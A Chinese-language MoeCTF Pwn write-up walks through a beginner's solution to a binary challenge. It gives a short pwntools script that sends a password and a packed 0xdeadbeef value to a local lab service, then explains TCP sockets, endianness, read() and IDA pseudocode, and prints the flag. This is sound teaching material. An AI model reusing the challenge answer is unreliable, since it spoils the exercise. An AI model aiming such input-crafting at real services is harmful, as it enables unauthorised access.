


<!--markdownlint-disable MD033 MD041-->

<div align="center">

# 😈 二进制漏洞审计 题解 🔎

</div>

## 0 二进制漏洞审计

> [!NOTE]
> 准确来说，是星澜音接触到 Pwn 领域的第 1 道题目！星澜音因为初入 Pwn，做第一道题已经是巨大的灾难，所有的工具（例如 Ghidra、IDA Pro 和 Pwntools）都是现学现用的，第 1 道题快给星澜音卡死了😭不过这道题真的让星澜音收获满满，星澜音因为这道题，弄懂了一个之前百思不得其解的问题，收获巨大😋！
>
> **FLAG:** `moectf{the-BEgInNInG-of-FOrmAt7f5438332}`，后面可能是随机的。

题目已经给定一个 Pwntools 脚本，我们事实上只需要对它进行适当的修改即可。首先尝试在 WSL2 的 Kali Linux 中运行该可执行文件，得到如下结果：

```plain
┌──(stellalyrin㉿lyrin-A16)-[~/MoeCTF/Pwn/0]
└─$ ./pwn
Guess who am i!
⠀⠀⠀⠀⠀⠀⠀⣀⣤⡶⠶⠶⠶⠶⢶⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⢠⡾⠋⠁⢀⣀⣤⣤⣄⣀⠈⠙⢷⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⢰⡟⠀⢠⣾⣿⣿⣿⣿⣿⣿⣿⣄⠀⠹⣆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⡿⠀⢠⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⢹⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⢸⡇⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⢘⣇⣀⣀⣠⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⡴⠶⠶⠶⣤⣄⡀⠀⠀⠀
⠀⠀⠀⠀⣿⡀⠀⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠃⠀⡸⢿⣿⣿⣿⣿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⡾⠋⠁⣀⣠⣤⣄⣀⡈⠛⢶⡄⠀
⠀⠀⠀⠀⠘⣷⡀⠀⠙⠿⣿⣿⣿⣿⠿⠛⠁⢀⡔⠁⢸⣿⣿⣿⣿⣿⣇⣤⣤⣤⣴⣶⣶⣦⣤⣤⣤⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⠋⠀⣰⣿⣿⣿⣿⣿⣿⣿⣦⡀⢻⡆
⠀⠀⠀⠀⠀⠈⠻⣆⠀⠀⠀⠀⠀⠀⢀⡠⠔⠉⠀⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣏⣁⣀⣀⠉⠙⠛⠷⣦⣤⡀⣴⠷⢶⣤⣀⣼⠏⠀⢰⣿⣿⣿⣿⣿⣿⣿⣿⣿⣧⠀⢻
⠀⠀⠀⠀⠀⣠⡾⠛⠷⣄⠀⠀⠀⠀⠹⡀⠀⠀⠀⠀⢸⣿⡇⣾⣶⡦⠟⠉⠀⠀⠀⠀⠀⣿⠁⠈⠉⠛⠳⣦⣤⣤⣭⣽⡋⣀⣄⡈⣹⠏⠀⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠀⣸
⠀⠀⠀⠀⠸⣿⠀⠰⣿⣿⣷⣄⠀⠀⠀⠙⡄⠀⠀⠀⣸⢻⣇⢸⠟⢡⣀⡀⠀⠀⠀⢀⠀⠉⠀⠀⠀⠀⠀⠀⠰⣶⣾⢹⣷⣿⣿⣿⠏⠀⠀⠀⠀⠻⣿⣿⣿⣿⣿⣿⣿⡿⠃⢰⡟
⠀⠀⠀⠀⠀⠹⣧⠀⠻⣿⣿⣿⣷⣤⣀⣀⣘⣄⣤⠾⣣⡾⣻⠆⢀⡞⢩⣟⣦⣄⢀⡿⠀⠀⣿⠀⢀⣠⣴⢶⡆⠙⢣⣿⣿⣿⣿⡟⠀⠀⠀⠀⠀⡀⠈⠛⠿⠿⠿⠛⠋⢁⣴⠟⠁
⠀⠀⠀⠀⠀⠀⠙⣷⡀⠹⣿⣿⣿⠘⢯⣍⠉⢉⣠⡾⠋⢸⡏⠀⠘⠛⠛⠛⣛⠛⠘⠛⠛⠛⠿⢷⣿⣿⣿⣤⣷⠄⢾⣿⡟⣫⣽⠀⠀⠀⠀⣠⠋⠈⠒⠠⠤⠀⢠⣠⡾⠛⠁⠀⠀
⠀⠀⠀⠀⠀⢀⣼⠛⣷⣄⣘⣿⣿⣦⣤⣭⠿⠛⠁⠀⠀⣿⣡⡴⡶⠀⠀⠀⠙⢷⣤⣤⣤⣤⣀⣤⡶⠀⠀⠀⠀⠀⢸⡿⢿⡏⢸⣆⠀⢀⠞⠀⠀⠀⠀⢀⣠⣶⣿⣷⡀⠀⠀⠀⠀
⠀⠀⠀⠀⢠⣿⡷⠾⠛⠉⠉⠉⠉⠉⠀⠀⠀⠀⠀⢀⣴⣿⠋⠘⠷⣤⡤⠤⠤⠤⠥⢤⣤⣈⣉⡁⠀⠀⠀⠀⣶⢤⣼⡇⠀⠹⣦⡙⠶⣥⣀⣀⣀⣤⣶⣿⣿⣿⣿⣿⣿⡄⠀⠀⠀
⠀⠀⣠⣶⠟⠉⠀⠀⠀⢀⣀⣀⣀⡀⠀⠀⣠⣶⣶⣾⣿⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠉⠓⠶⠶⠶⠏⠀⢹⣷⡄⠀⠈⣹⢦⣀⠉⣉⡿⢰⣿⣿⣿⣿⣿⣿⠟⠁⠀⠀⠀
⠀⣰⡟⠁⠀⢀⣤⡶⠟⠛⠛⠛⠛⠛⢷⣶⠏⡜⠈⠳⣟⣿⣷⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡇⠀⠀⠀⢀⣿⣿⣧⣔⡋⠀⠀⠉⠛⢯⣴⣿⡿⠿⣿⣿⠟⠁⠀⠀⠀⠀⠀
⢰⡏⠀⢠⡾⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠙⣯⠀⠀⠀⠈⠳⣽⣿⣷⣤⣀⠀⠀⠀⠀⠀⠀⠀⣀⠤⠊⠀⠀⢀⣤⣾⣿⣿⠞⠋⢻⡆⠀⠀⠀⠀⠈⠙⠳⣾⣿⣿⡀⠀⠀⠀⠀⠀⠀
⢸⡇⢰⡟⠁⠀⠀⠀⠀⣀⣀⣀⣀⣀⠀⠀⣿⠀⠀⠀⠀⠀⠈⠙⠯⣿⣿⢿⣷⣶⣦⣤⣤⣬⣤⣤⣶⣶⡿⣿⣿⠿⠋⠀⠀⠀⠀⣿⠀⠀⠀⠀⠀⠀⠀⠘⡛⢿⣇⠀⠀⠀⠀⠀⠀
⢸⣧⡿⠁⠀⣠⣴⠾⠛⠉⠉⠉⠉⠙⠳⣦⡿⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠛⠺⠿⠭⠭⠭⠭⠭⠽⠿⠗⠛⠉⠁⠀⠀⠀⠀⠀⠀⣸⢀⣠⣤⠴⠶⠦⣤⣀⡇⠀⠹⣷⡀⠀⠀⠀⠀
⠀⢻⣇⣰⠞⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡿⠋⠁⠀⠀⠀⠀⠀⠉⠻⣶⡄⢹⣧⠀⠀⠀⠀
⠀⠀⣿⠇⠀⠀⠀⠀⢀⣀⣤⣤⣤⣄⣀⠀⢸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣡⣤⣤⣤⣄⡀⠀⠀⠀⠀⠈⢿⣦⡿⠀⠀⠀⠀
⠀⢰⡏⠀⠀⢀⣴⠿⠛⠉⠁⠀⠀⠉⠙⠻⢿⣟⢦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡾⠋⠁⠀⠀⠀⠈⠛⢷⣄⠀⠀⠀⠀⣿⡃⠀⠀⠀⠀
⠀⠸⣧⠀⣴⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⡿⠯⣿⡶⢤⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣠⢴⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠹⣧⡀⠀⠀⢹⡇⠀⠀⠀⠀
⠀⠀⢹⢿⡏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡇⠀⠈⠙⠳⠿⢯⣟⣲⣶⠶⠤⢤⣤⣤⣤⣤⠤⢤⣴⣶⣶⡿⠿⠛⣩⣿⠶⠶⠶⠶⣤⡀⠀⠀⠀⠀⠙⣷⠀⠀⣿⠃⠀⠀⠀⠀
⠀⠀⣾⢸⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣸⣧⠀⠀⠀⠀⠀⠀⠈⠉⠉⠙⠛⠛⠛⠛⠛⠛⠋⡍⠉⠉⠀⠀⠀⣸⡟⠁⠀⠀⠀⠀⠈⠙⣦⡀⠀⠀⠀⣿⣀⣼⠋⠀⠀⠀⠀⠀
⠀⠀⣿⠸⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣼⠏⢸⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠰⠀⠀⠀⠀⠀⣰⣿⠀⠀⠀⠀⠀⠀⠀⠀⠈⣿⡀⠀⠀⣾⠋⠁⠀⠀⠀⠀⠀⠀
⠀⠀⢹⡇⠙⣷⣤⣄⣀⠀⠀⣀⣀⣤⣶⢿⣅⠰⣼⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣸⠇⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣧⣀⣴⠟⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⢸⣧⠀⠘⣧⠉⢩⡟⣯⠉⢹⢁⣟⠀⠙⠳⢿⣦⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠎⠀⠀⠀⠀⠀⠻⢒⡿⣧⡀⠀⠀⠀⠀⠀⠀⠀⠀⣿⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⢿⣆⣠⡿⠷⠟⠋⠉⢷⣤⣼⠋⠙⠳⠶⣤⡉⠻⠿⣷⣶⣤⣀⣀⡀⠀⠀⠀⠀⢀⠎⠀⠀⠀⠀⠀⠀⠀⣼⣃⣘⣷⣦⣀⠀⠀⠀⠀⣀⣼⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⣼⡿⠋⠀⠀⠀⠀⠀⠀⠈⠁⠀⠀⠀⠀⠈⠻⣦⡀⠀⠉⠛⠺⠿⢿⣿⣒⣶⣦⢿⣤⣤⣤⣤⢤⣶⣖⣾⡿⠟⠛⢻⣋⣻⣿⣶⠶⠟⠛⠁⠻⣆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣼⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣷⡀⠀⠀⠀⠀⠀⠀⢀⡜⠉⠉⠉⠉⠉⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⣼⠃⠀⠀⠀⠀⠀⢻⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⢸⡏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⡇⠀⠀⠀⠀⢀⠔⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣾⠃⠀⠀⠀⠀⠀⠀⠈⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⢸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣧⠀⡀⠴⠊⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣴⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⢸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣸⣿⣷⣶⣦⣤⣄⣀⣀⣀⡀⠀⠀⠀⢀⣀⣀⣀⣤⣴⣶⣿⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡟⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣾⣷⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⡟⣿⠀⠈⠉⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⢋⣩⣴⠟⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⠹⣷⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⠏⢠⣿⣤⣀⣀⠀⠀⠀⠀⠀⢀⣀⣠⣤⣤⡶⠟⠻⣯⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⡾⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⠀⠈⠛⠷⣦⣤⣀⣀⣀⣀⣀⣀⣀⣀⣴⡾⠛⠁⠀⢸⡏⠈⠉⠙⠛⠛⠛⠛⠛⠛⢉⡽⣿⠀⠀⠀⠀⠀⠙⠻⠷⣶⣦⣤⣤⣤⣤⠴⠶⣿⡏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⢿⡄⠀⠀⠀⠀⠀⠉⠙⠉⠉⠉⠉⠉⠉⠁⠀⠀⠀⠀⣾⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠿⠷⢿⣧⡀⢀⣠⣤⣄⣀⠀⠀⠀⢀⣀⣠⣤⣀⣴⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠘⣷⣀⣤⣶⣶⣦⣤⣤⣤⣀⡀⠀⠀⠀⣀⡴⠖⠛⠺⣏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⢻⣏⠁⠀⢈⡝⢳⣤⡞⠋⠁⠀⠀⠹⣻⣦⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⢸⡏⠀⠀⠀⠀⠀⠀⠀⡏⠙⠻⣦⣴⠏⠀⠀⠀⠀⢿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢻⣦⠀⢘⣤⡾⠋⠻⣦⣄⠀⠀⠀⠘⢿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⢸⡇⠀⠀⠀⠀⠀⡠⠚⠀⢀⣠⡼⠟⠷⣤⣀⣀⣀⣼⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⠛⠛⠁⠀⠀⠀⠀⠉⠛⠳⢦⣤⣤⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠈⢿⣤⣀⣀⣴⣭⡶⠶⠟⠋⠉⠀⠀⠀⠀⠉⠉⠉⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀

Before u answer me,solve some bypass function!
First,you need to tell me the password.
114511
Right!Then,give the answer.
shuijiangui
Something wrong.
```

很明显文件要求了两个输出。大致猜测脚本意思后，我们直接修改该脚本即可。

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")

io = connect("127.0.0.1", 5896)

io.sendlineafter(b"password.", b"114511")

payload = p32(0xdeadbeef)
payload += b"shuijiangui"
io.sendafter(b"answer.", payload)

io.interactive()
```

执行后即可得到 `flag`，输出如下所示（节选）：

```plain
[DEBUG] Received 0x1 bytes:
    b'\n'
[DEBUG] Received 0x57 bytes:
    b'Before u answer me,solve some bypass function!\n'
    b'First,you need to tell me the password.\n'
[DEBUG] Sent 0x7 bytes:
    b'114511\n'
[DEBUG] Received 0x1b bytes:
    b'Right!Then,give the answer.'
[DEBUG] Sent 0xf bytes:
    00000000  ef be ad de  73 68 75 69  6a 69 61 6e  67 75 69     │····│shui│jian│gui│
    0000000f
[*] Switching to interactive mode
[DEBUG] Received 0x1 bytes:
    b'\n'

[DEBUG] Received 0x52 bytes:
    b'You are right!Now i give u what u want!\n'
    b'moectf{the-BEgInNInG-of-FOrmAt7f5438332}\n'
    b'\n'
You are right!Now i give u what u want!
moectf{the-BEgInNInG-of-FOrmAt7f5438332}

[*] Got EOF while reading in interactive
```

这是容易的，但星澜音在这一过程中被激起极大的好奇心，衍生出了大量的问题——经过询问朋友和 AI 以及查阅各种资料，终于搞明白了一二。下面简要记录当时想到的几个问题：

### 一些衍生出的问题和答案

#### （一）Pwntools 和远程服务器是如何 `connect` 的？是通过 SSH 连接吗？

这其实是星澜音当时最理解不了的点之一。星澜音总认为 Pwntools 是通过类似于 SSH 连接一样的东西连接到远程服务器，然后模拟终端的输入、操作并将输出打回到用户端，但事实上并非如此。我们说，Pwntools 的 `connect` 是通过 **非常底层的 TCP 连接** 得到的。

在绝大多数 CTF Pwn 题目中，主办方会使用一种叫做 `socat` 或 `xinetd` 的工具，它们在服务器上监听一个特定的 TCP 端口，一旦有客户端（比如我们的 Pwntools 脚本）尝试连接到这个端口，它们就会为这个连接启动一个 `pwn` 程序的全新实例，紧接着，将这个程序实例的 **标准输入、标准输出和标准错误**（也就是 `stdin`、`stdout` 和 `stderr`，后面我们还会提到）完完全全地重新定向到这个网络连接上。这建立起了一个非常纯粹而双向的数据通道。

我们使用 Pwntools 去 `send` 数据，该数据会通过 TCP 连接发送到目标服务器，由对方的工具接收后，直接写入到 `pwn` 程序的标准输入中；而 `pwn` 程序通过 `printf` 或 `puts` 打印出的数据，在写入到其标准输出后，也会由工具接收并通过 TCP 连接发送到我们的 Pwntools 端。

这一过程使用的是裸的 TCP/IP 套接字通信：TCP 协议将数据可靠地传递到另一端，但它完全不会修改数据或对数据进行任何的解释和修饰。而我们所说的 SSH 是一个应用层协议，它构建在 TCP 之上，目的是提供一个安全的、加密和认证的远程命令行会话。SSH 的交互是面向人类的、基于文本行的，它会加入大量控制字符和封装。

#### （二）`p32(0xdeadbeef)`、`b"\xde\xad\xbe\xef"`、`b"deadbeef"` 有什么区别？

这是出题人为我们留下的问题。

首先看 `b"\xde\xad\xbe\xef"` 和 `b"deadbeef"`，这二者均为 **字节串**，`b` 表示将后面的东西当做字节处理。我们使用 Python 解释器即可一窥究竟。

```python
In [3]: text_str = "helloworld"

In [4]: type(text_str)
Out[4]: str

In [5]: text_bytes = b"helloworld"

In [6]: type(text_bytes)
Out[6]: bytes
```

可以看到，对于共有部分 `helloworld`，前面有没有 `b` 参数会直接影响变量的类型。那么这两个字节串又有何区别呢？

对于 `b"deadbeef"`。它是一个 ASCII 字符字面量，这种表示方式下，引号内的每一个字符都代表其自身的 ASCII 编码值。Python 会取出引号中的每一个字符，将其转换为对应的 ASCII 码（一个字节），再组合成一个字节串。经过这样的处理，我们会得到一个长度为 8 的 `bytes` 对象。

对于 `b"\xde\xad\xbe\xef`，这实际上使用了转义序列：Python 会将一个 `\x` 后紧跟的两个十六进制数字，直接解析为一个字节的值。经过这样的处理，我们会得到一个长度为 4 的 `bytes` 对象。

那么 `p32(0xdeadbeef)` 呢？首先，`0xdeadbeef` 定义了一个十六进制表示的 32 位整数，而来自 Pwntools 的 `p32` 会将这个整数也打包为一个字节串。但它的打包结果与我们前面所提到的 `b"\xde\xad\xbe\xef"` 不同，或者说——恰好相反！因为 `p32` 函数会按照小端序（Little-Endian）的方式打包数据，它所打包的结果为 `b'\xef\xbe\xad\xde'`。

「大端序」和「小端序」是两种不同的「端序 / 字节序」。大端序要求高位字节在前，正如我们书写数字一般，左边的数字是最高位；而小端序则要求低位字节在前，与我们的习惯相反。而 `p32` 的功能就是将一个 32 位整数打包为小端序字节串，由于它面向的平台是 x86 和 x86-64 架构的 CPU，因此 `p32` 就遵从这一习惯选择了小端序。

#### （三）为何第二次 `send` 请求不使用 `sendlineafter` 而使用 `sendafter`？

倘若我们抛开 `pwn` 文件的内容，单纯从 Pwntools 的 DEBUG 输出中来看，也能窥见其中一二。在我们使用 `sendafter` 时，我们是直接对远程服务器发送了 `p32(0xdeadbeef) + "shuijiangui"` 这一串输入，用十六进制表示就是这样：

```plain
[DEBUG] Sent 0xf bytes:
    00000000  ef be ad de  73 68 75 69  6a 69 61 6e  67 75 69     │····│shui│jian│gui│
    0000000f
```

如此干净利落的 15 个字节。但一旦使用 `sendlineafter`，情况就变了！我们的输入变成了这样：

```plain
[DEBUG] Sent 0x10 bytes:
    00000000  ef be ad de  73 68 75 69  6a 69 61 6e  67 75 69 0a  │····│shui│jian│gui·│
    00000010
```

我们可以清晰地看见，15 个字节之后又追加了一个字节 `0x0a`，它便是这 `line` 所带来的一个换行符。比如说我们进行终端操作，输入了长长一串命令之后敲一下回车，这个回车其实也会带来一个换行符，它追加在这一堆命令之后，被终端一齐送到标准输入（`stdin`）里。

那么为何这个 `pwn` 程序如此看重是否有这个换行符？我们打开 IDA Pro，直接展开逆向！


按下 F5 以命令 IDA Pro 尝试将汇编代码转换为伪代码，一般均为类 C 风格的代码。在第二次请求输入时，有如下代码片段：

```c
puts("Right!Then,give the answer.");
read(0, buf, 0x64uLL);
if ( !(unsigned int)bypass(buf) )
{
    puts("You are right!Now i give u what u want!");
    backdoor();
}
```

在 Linux 系统调用中，`read` 是一个原始字节流读取函数，其原型为

```c
ssize_t read(int fd, void buf[.count], size_t count);
```

根据 [read(2) - Linux manual page](https://www.man7.org/linux/man-pages/man2/read.2.html) 给出的解释：

> `read()` attempts to read up to `count` bytes from file descriptor `fd` into the buffer starting at `buf`.

我们看到题目中的 `read` 指令：

```c
read(0, buf, 0x64uLL);
```

它从 `0`（即标准输入 `stdin`）中读取 `0x64` 个字节（也就是 100 个字节）的数据，并存储在目标内存 `buf` 处。接下来，它携带 `buf` 作为参数，调用 `bypass` 函数。首先要注意的一点是，`read` 函数与我们所熟知的 `scanf` 和 `fgets` 等不同，它读取的是 **原始字节流**，并且会将自己读取到的东西 **完整保留**！它既不会向其他函数一样截断 `x00`，也不会跳过或转义空白字符或非打印字符。更重要的是，它仅会从 `stdin` 中取 100 个字节，然后将 `stdin` 的读取指针前移 100 个字节；至于 `stdin` 里是否还有其他等待着的数据，`read` 就不会再管了。

> [!TIP]
> 准确来说，Linux 端的 `read` 函数的行为模式是这样的：首先它会一直阻塞（等待），直到输入缓冲区中有数据供它读取了。一旦有了数据，它就会开始读取，直到以下条件中任一成立，它就会返回（停止阻塞）：
>
> - 已经读取了一定或指定数量的字节；
> - 读取到了文件的末尾（可能是 EOF 结束符）；
> - 遇到了某些非阻塞的情况，没有更多内容可读。
>
> 换句话说，只要 `fd` 中有了数据，`read` 就拿上至多 `count` 字节的数据；哪怕拿到的数据长度远小于 `count`，它也会移动完读取指针后直接跑路！

接下来我们来看 `bypass` 函数：

```c
__int64 __fastcall bypass(__int64 a1)
{
    if ( !a1 )
        return 0LL;
    if ( *(_DWORD *)a1 == -559038737 && !strcmp((const char *)(a1 + 4), "shuijiangui") )
        return 0LL;
    puts("Something wrong.");
    return 1LL;
}
```

`a1` 即 `buf` 的起始地址，也就是一个指针。首先检验 `a1` 是否为空指针，然后：

1. 将 `a1` 强制转换为 `_DWORD*`（32 位无符号整数指针；这里的具体操作是，创建一个 `_DWORD` 指针，并将其指向 `a1` 的起始地址；也就是取 `a1` 的前 4 个字节）并解引用它，检验它的值是否等于 `-559038737`，或者十六进制的 `DEADBEEF`。
2. 将 `a1` 从第 5 个字节开始（`a1 + 4`）强制转换为 `const char`（字符串；这里的具体操作是，创建一个 `const char` 指针，并将其指向 `a1 + 4` 这个地址），调用 `strcmp`（C 语言标准库中的字符串比较函数）对 `(const char *)(a1 + 4)` 和 `"shuijiangui"` 进行比较。一般地，`strcmp` 会对两个字符串的第一个字符开始，逐个字节进行比较，直到遇到空字符 `'\0'` 或不相等的字符为止。

